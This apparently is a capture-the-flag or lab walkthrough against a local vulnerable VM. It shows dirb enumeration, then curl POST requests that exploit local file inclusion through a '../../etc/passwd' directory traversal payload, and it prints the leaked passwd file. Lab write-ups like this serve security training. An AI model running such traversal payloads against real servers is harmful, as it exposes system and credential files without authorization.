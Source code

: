 ```

```

From the analysis we find that 
- 22 OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0). We can probably tell what debian version it is.
We're running:
- Apache 2.2.22
- PHP 5.3.10-1 (How can we find this out)

A dirb scan of the site reveals the following web pages.
```
root@marksmith:~# dirb http://192.168.109.129

+ http://192.168.109.129:80/add (CODE:200|SIZE:307)
+ http://192.168.109.129:80/c (CODE:200|SIZE:1)
+ http://192.168.109.129:80/cgi-bin/ (CODE:403|SIZE:291)
+ http://192.168.109.129:80/head (CODE:200|SIZE:2793)
+ http://192.168.109.129:80/in (CODE:200|SIZE:47559)
+ http://192.168.109.129:80/index (CODE:200|SIZE:3267)
+ http://192.168.109.129:80/index.php (CODE:200|SIZE:3267)
+ http://192.168.109.129:80/panel (CODE:302|SIZE:2469)
+ http://192.168.109.129:80/server-status (CODE:403|SIZE:296)
+ http://192.168.109.129:80/show (CODE:200|SIZE:1)
+ http://192.168.109.129:80/test (CODE:200|SIZE:72)
    
``` 
Of interest is page `http://192.168.109.129:80/test`.   
We see other files are present which will be examined;
    __/add, /c, /head, /in, /index, /panel, /show__
Navigating to `/test` using curl we get an error;
```
root@marksmith:~# curl -v http://192.168.109.129/test
'file' parameter is empty. Please provide file path in 'file' parameter
```

We use curl to do a post to the file parameter `file=asdaf` and we get a different kind of error
```
root@marksmith:~# curl -v -d "file=asdaf" http://192.168.109.129/test
  ...
file not found
```
From this we can then attempt to check for LFI using directory traversal `../../etc/passwd`
```
root@marksmith:~# curl -d "file=../../etc/passwd" http://192.168.109.129/test 
... 
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    syslog:x:101:103::/home/syslog:/bin/false
```